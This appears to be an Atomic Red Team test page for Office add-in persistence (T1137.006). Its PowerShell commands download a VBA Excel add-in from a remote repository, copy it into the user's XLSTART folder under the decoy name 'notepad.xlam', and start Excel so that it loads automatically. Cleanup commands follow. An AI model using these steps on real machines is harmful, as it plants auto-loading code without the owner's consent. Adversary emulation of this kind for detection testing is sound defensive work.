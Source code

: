 **Supported Platforms:** Windows


**auto_generated_guid:** 082141ed-b048-4c86-99c7-2b8da5b5bf48






#### Attack Commands: Run with `powershell`! 


```powershell
Copy "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam" "$env:APPDATA\Microsoft\Excel\XLSTART\notepad.xlam"        
Start-Process "Excel"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","Excel" -ErrorAction Ignore
Start-Sleep 3
Remove-Item "$env:APPDATA\Microsoft\Excel\XLSTART\notepad.xlam" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Excel must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```
##### Description: XLAM file must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.006\bin\Addins\" -Force | Out-Null
Invoke-Webrequest -Uri "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1137.006/bin/Addins/ExcelVBAaddin.xlam" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.006\bin\Addins\ExcelVBAaddin.xlam"
```


